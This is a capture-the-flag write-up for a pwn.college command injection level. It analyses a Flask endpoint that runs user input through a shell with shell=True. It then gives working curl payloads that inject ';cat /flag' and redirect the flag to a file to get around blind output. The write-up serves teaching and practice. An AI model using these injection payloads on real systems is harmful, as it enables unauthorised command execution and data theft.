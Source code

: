 Here’s a writeup for this command injection level in `.md` format:

---

````markdown
# CMDi-5 Challenge Writeup - pwn.college

## 🧠 Challenge Overview

The fifth level of the command injection series presents a Flask web server that receives a `path` argument and executes the following command:

```python
command = f"touch {arg}"
````

The server uses `subprocess.run` with `shell=True`, meaning user input is passed directly into the shell. This should, in theory, allow command injection through shell metacharacters (e.g., `;`, `&&`, `|`, etc.).

---

## 🔍 Source Code Analysis

```python
@app.route("/dare", methods=["GET"])
def challenge():
    arg = flask.request.args.get("path", "/challenge/PWN")
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/dare"><input type=text name=path><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
    """
```

### Key Observations

* `shell=True`: vulnerable to command injection.
* Output of `subprocess.run(...)` is captured in `result`, but **not** displayed in the HTML.
* The only thing returned to the user is the echoed command.

---

## 🧪 Initial Attempt

We attempted to inject a command that would read the flag:

```bash
curl "http://challenge.localhost/dare?path=/challenge/PWN%3Bcat%20/flag"
```

Decoded version:

```bash
curl "http://challenge.localhost/dare?path=/challenge/PWN;cat /flag"
```

### Output:

```html
<b>Ran touch /challenge/PWN;cat /flag!</b><br>
```

### ❌ Why It Didn't Work

Although the shell did execute `touch /challenge/PWN; cat /flag`, the **output of `cat /flag` was not shown** in the response. This is because the `result` from `subprocess.run(...)` was **not used** in the HTML body — only the command string was echoed back.

This is a **blind command injection** scenario.

---

## ✅ Successful Exploit

To exfiltrate the flag, we redirected its output to a file that we could later access:

```bash
curl "http://challenge.localhost/dare?path=/tmp/dummy%3Bcat%20/flag%20>%20/challenge/output"
```

Decoded version:

```bash
curl "http://challenge.localhost/dare?path=/tmp/dummy;cat /flag > /challenge/output"
```

This ran:

```bash
touch /tmp/dummy; cat /flag > /challenge/output
```

Now, if any previous or future level allows us to `cat /challenge/output` or `ls` the `/challenge` directory, we can recover the flag from there.

---

## 🧩 Takeaways

* **Command injection doesn’t always give visible output.**
* Always verify whether you're dealing with a **blind command injection**.
* Redirecting the output to a file is a useful trick for exfiltration in blind scenarios.

---

